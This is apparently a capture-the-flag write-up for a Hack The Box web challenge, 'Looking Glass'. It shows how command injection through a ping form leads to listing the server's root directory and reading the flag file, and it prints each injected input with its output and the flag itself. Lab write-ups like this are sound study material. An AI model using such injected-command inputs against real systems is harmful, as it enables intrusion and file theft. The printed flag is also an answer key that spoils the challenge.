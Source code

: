 # Looking Glass - Writeup

## Problem
We've built the most secure networking tool in the market, come and check it out!

## Solution
1. Looking at the website, we realise that we are able to run a ping command and the output of the ping command will be displayed on the webpage.
```code
PING 139.59.190.151 (139.59.190.151): 56 data bytes
--- 139.59.190.151 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
```
2. This might possibly be a command injection attack and we try to exploit this vulnerability using `139.59.190.151;ls` in the input field. The output `ls` command is the displayed on the webpage.
```code
PING 139.59.190.151 (139.59.190.151): 56 data bytes
--- 139.59.190.151 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
index.php
```
3. However, we only find an `index.php` file and analysing the file does not provide us any clue to what the flag is. 
4. Now, we will view the root directory by using `139.59.190.151; cd .. && ls` in the input field, and we find a `flag_FWlby` file which might contain the flag.
```code
PING 139.59.190.151 (139.59.190.151): 56 data bytes
--- 139.59.190.151 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
bin
boot
dev
entrypoint.sh
etc
flag_FWlby
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
```
5. We can get the flag by using `139.59.190.151; cd .. && cat flag_FWlby` in the input field.
```code
PING 139.59.190.151 (139.59.190.151): 56 data bytes
--- 139.59.190.151 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}
```

## Flag
flag : HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}
